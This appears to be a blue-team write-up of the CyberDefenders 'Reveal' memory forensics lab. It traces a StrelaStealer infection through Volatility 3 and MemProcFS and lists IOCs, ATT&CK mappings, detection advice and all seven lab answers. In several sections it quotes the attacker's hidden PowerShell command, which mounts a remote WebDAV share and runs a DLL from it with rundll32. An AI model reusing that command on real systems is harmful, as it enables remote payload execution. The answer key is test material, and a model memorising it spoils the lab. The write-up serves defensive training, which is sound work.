







# Memory Forensics – Reveal Lab (Multi-Stage StrelaStealer Compromise)

**Platform:** CyberDefenders — [Reveal Lab](https://cyberdefenders.org/blueteam-ctf-challenges/reveal/)
**Evidence:** Windows memory image (crash dump) captured from a compromised financial-institution workstation
**Tools used:** Volatility 3, MemProcFS, VirusTotal

---

## At a Glance

| | |
|---|---|
| **Category** | Endpoint Forensics |
| **Tactics** | Stealth, Discovery |
| **Difficulty** | Easy |
| **Estimated Time** | 45 minutes |
| **Status** | Retired |
| **Completion** | 7 / 7 Questions (100%) |
| **Malicious Process** | `powershell.exe` (PID `3692`, PPID `4120`) |
| **Compromised User** | `Elon` |
| **Second-Stage Payload** | `3435.dll`, loaded via `rundll32.exe` |
| **Remote Infrastructure** | `45.9.74.32:8888` — WebDAV share `davwwwroot` |
| **Execution Technique** | Signed Binary Proxy Execution — Rundll32 (T1218.011) |
| **Malware Family** | StrelaStealer |
| **Outcome** | Full attack chain reconstructed from volatile memory alone; malicious process, remote infrastructure, and malware family identified and independently confirmed via VirusTotal |

---

## 1. Executive Summary

A workstation belonging to a financial institution triggered a SIEM alert for unusual activity. Because the host had access to sensitive financial data, the incident response team captured a full memory image rather than risk losing volatile evidence by powering the machine down. Analysis of the memory dump with Volatility 3 and MemProcFS revealed a hidden-window `powershell.exe` process that mounted an attacker-controlled WebDAV share over the network and used the living-off-the-land binary `rundll32.exe` to execute a remotely hosted DLL directly from that share — without ever writing the payload to local disk first. The process ran in the context of the user `Elon`. Correlating the remote IP address against VirusTotal attributed the activity to the **StrelaStealer** malware family, an information-stealer known for targeting credentials and mail-client data.

## 2. Scenario

The organization's SOC received a SIEM alert for a workstation with access to sensitive financial data. Rather than allow the endpoint to keep running or shut it down (and lose memory-resident evidence), the response team captured a memory dump for offline analysis. The objective of this investigation was to work entirely from that memory image to identify any malicious process, trace how it reached the host and what it did next, determine which user account was affected, and attribute the activity to a known threat so that containment and remediation could be scoped correctly.

## 3. Attack Chain

The key detail that makes this chain notable for detection engineering is that the payload never touches local disk: `rundll32` calls its entry point straight off a WebDAV-mounted UNC path, which defeats disk-based AV scanning and file-integrity monitoring that isn't also watching process command lines and network shares.

## 4. Evidence & Environment

| Field | Value |
|---|---|
| Evidence type | Windows memory image (`.dmp`) |
| Analysis framework | Volatility 3 |
| Supplementary tool | MemProcFS (memory image mounted as a virtual filesystem for process/file browsing) |
| OS profile | Windows 10, x64 |
| Approx. system time at capture | 2024-07-15 ~07:00 UTC *(from `windows.info` — confirm against your own output)* |

> **Note:** Exact PIDs, timestamps, and the memory dump's filename/hash should be verified against your own screenshots before publishing — this section documents the fields as captured in this investigation's evidence.

Initial triage started with `windows.info` to confirm the OS build and validate that Volatility's symbol table matched the image, followed by `windows.pstree` / `windows.cmdline` to enumerate running processes and their full command lines. MemProcFS was used alongside Volatility to browse the process tree and memory-mapped files as a mounted virtual drive, which made it faster to pivot between a suspicious process and its underlying VAD (Virtual Address Descriptor) regions.

## 5. Investigation Walkthrough

### 5.1 Lab Overview

The CyberDefenders lab page scopes the exercise: Endpoint Forensics category, Stealth and Discovery tactics, Volatility 3 as the primary tool, rated Easy with a 45-minute target time. All 7 lab questions were answered and confirmed correct.

### 5.2 MemProcFS Memory Analysis

Mounting the memory image with MemProcFS exposes processes, DLLs, and handles as a browsable virtual filesystem. This view was used to enumerate the running process list and quickly spot `powershell.exe` running with an unusual, hidden-window command line rather than a normal interactive session — the first pivot point into the rest of the investigation.

### 5.3 Memory Forensics — Mounted (WebDAV) Drive Artifact

The `powershell.exe` command line shows a `net use` call mapping the UNC path `\\45.9.74.32@8888\davwwwroot\` — a WebDAV server exposed on a non-standard port (8888) and disguised as a normal network share. Immediately afterward, `rundll32.exe` calls `3435.dll,entry` directly from that same mounted share. This is the second-stage payload: the DLL is executed in place over the network, so it never needs to land on the local disk.

### 5.4 Suspicious Network Connection

`net.exe` (PID 2416, spawned by the malicious `powershell.exe`, PID 3692) is observed actually establishing the connection: `net.exe use \\45.9.74.32@8888\davwwwroot\`. Correlating this child process with its parent in the process tree confirms the WebDAV mount was initiated by the same PowerShell instance, not a separate, unrelated administrative action.

### 5.5 Malicious IP — VirusTotal Analysis

Submitting `45.9.74.32` to VirusTotal returns detections tying the address to known malicious infrastructure, with community/vendor tagging pointing to the **StrelaStealer** malware family. This is the step that turns a "suspicious PowerShell + WebDAV" finding into an attributed, named threat.

### 5.6 Suspicious PowerShell Process

The full parent command line: `powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`. The `-windowstyle hidden` flag suppresses any visible console window, and the semicolon-chained commands mount the remote share and immediately execute the payload in a single line — consistent with a scripted, automated infection stage rather than manual attacker interaction. Session/SID enumeration (`windows.sessions` / `windows.getsids`) against PID 3692 ties this process to the logon session for the user `Elon`.

## 6. Lab Questions & Answers (7/7)

| # | Question Topic | Answer |
|---|---|---|
| 1 | Name of the malicious process | `powershell.exe` |
| 2 | Parent PID (PPID) of the malicious process | `4120` |
| 3 | Filename used to execute the second-stage payload | `3435.dll` |
| 4 | Name of the shared directory accessed on the remote server | `davwwwroot` |
| 5 | MITRE ATT&CK sub-technique for running the malicious file via a Windows utility | `T1218.011` (Signed Binary Proxy Execution: Rundll32) |
| 6 | Username the malicious process runs under | `Elon` |
| 7 | Malware family | `StrelaStealer` |

## 7. Threat Intelligence Correlation

| Indicator | VirusTotal / OSINT Result |
|---|---|
| `45.9.74.32` | Flagged as malicious infrastructure; associated with StrelaStealer distribution over WebDAV |
| `3435.dll` | Second-stage loader DLL, executed via `rundll32.exe,entry` — consistent with StrelaStealer's DLL-based loading pattern |

## 8. Indicators of Compromise (IOCs)

| Type | Value | Notes |
|---|---|---|
| Process | `powershell.exe` (PID 3692) | Hidden-window malicious process; parent PID 4120 |
| Process | `net.exe` (PID 2416) | Child of the malicious PowerShell process; mounts the WebDAV share |
| Process | `rundll32.exe` | Executes the second-stage DLL directly off the mounted share |
| Remote IP : Port | `45.9.74.32:8888` | WebDAV C2 / staging server |
| UNC Path | `\\45.9.74.32@8888\davwwwroot\` | Attacker-hosted WebDAV share |
| File | `3435.dll` | Second-stage StrelaStealer loader; entry point invoked via `rundll32` |
| User Account | `Elon` | Logon session under which the infection executed |
| Malware Family | StrelaStealer | Confirmed via VirusTotal correlation of `45.9.74.32` |

## 9. MITRE ATT&CK Mapping

| Technique ID | Technique Name | Evidence |
|---|---|---|
| T1059.001 | Command and Scripting Interpreter: PowerShell | Hidden-window `powershell.exe` used to orchestrate the infection |
| T1105 | Ingress Tool Transfer | Second-stage DLL retrieved/executed directly from a remote WebDAV share |
| T1021.002 / T1071.001 | Remote Services / Application Layer Protocol (SMB/WebDAV over HTTP) | `net use` mounts a remote share over WebDAV to stage the payload |
| T1218.011 | Signed Binary Proxy Execution: Rundll32 | `rundll32.exe` used to execute `3435.dll,entry` — a legitimate, signed Windows binary abused to run attacker code |
| T1564 | Hide Artifacts | `-windowstyle hidden` suppresses the visible PowerShell console |
| TA0007 | Discovery | Investigation tactics tag for this lab (per CyberDefenders classification) |

## 10. Timeline

| Time (UTC, approx.) | Event |
|---|---|
| 07:00:03 | `powershell.exe` (PID 3692) starts with a hidden window, spawned by PID 4120 |
| 07:00:06 | Child `net.exe` (PID 2416) runs, mounting `\\45.9.74.32@8888\davwwwroot\` |
| ~07:00:06–07:00:08 | `rundll32.exe` executes `3435.dll,entry` directly from the mounted share |
| 07:00:08 | Memory image capture timestamp (`windows.info` SystemTime) |

*Timestamps are taken from this investigation's evidence — confirm against your own `windows.info` / `windows.pstree` output before publishing, as capture times can differ between individually issued lab instances.*

## 11. Detection & Prevention Recommendations

- **Block outbound WebDAV (HTTP/HTTPS to non-standard ports) at the perimeter**, especially from workstations that have no legitimate business need to reach external WebDAV servers.
- **Alert on `net use` targeting a UNC path with an `@port` suffix** (e.g. `\\ip@8888\share\`) — this syntax is a strong indicator of a WebDAV redirector being abused, and is rare in legitimate enterprise file-share usage.
- **Alert on `rundll32.exe` with a command line pointing to a remote UNC path** rather than a local or trusted network file server — living-off-the-land execution from an external share is a high-confidence detection opportunity.
- **Flag PowerShell invocations using `-windowstyle hidden`** combined with chained (`;`) network and execution commands, which is a common pattern for scripted, non-interactive malware stages.
- **Enable PowerShell Script Block Logging and Module Logging** so hidden-window command lines like this one are captured centrally, not just visible in memory at the time of compromise.
- **Hunt across the environment** for connections to `45.9.74.32:8888` and for any process spawning `rundll32.exe` against a `davwwwroot`-style WebDAV path.

## 12. Conclusion & Remediation

- Isolate the affected workstation and reset credentials for the user `Elon`.
- Block `45.9.74.32` (and the `davwwwroot` WebDAV path) at the firewall/proxy.
- Search EDR/SIEM telemetry organization-wide for the same PowerShell → `net use` → `rundll32` pattern to catch other potentially compromised hosts.
- Review email/web gateway logs for the initial delivery vector that led to this PowerShell execution (this lab's evidence begins at execution; the initial access vector for StrelaStealer campaigns is typically phishing with an ISO/archive attachment).
- Feed the confirmed IOCs (IP, UNC path, DLL name) into threat intelligence and EDR blocklists.

## 13. Skills Demonstrated

- Windows memory acquisition analysis using Volatility 3
- Memory image triage with MemProcFS (mounted virtual filesystem view of processes/handles)
- Process tree and command-line reconstruction (`pstree`, `cmdline`)
- Identifying fileless / living-off-the-land execution (Rundll32 abuse over WebDAV)
- Session/user attribution from a suspicious process (`sessions`, `getsids`)
- Threat intelligence correlation and malware family attribution via VirusTotal
- MITRE ATT&CK technique mapping
- Incident timeline reconstruction and SOC-style remediation reporting

## 14. References

- [CyberDefenders — Reveal Lab](https://cyberdefenders.org/blueteam-ctf-challenges/reveal/)
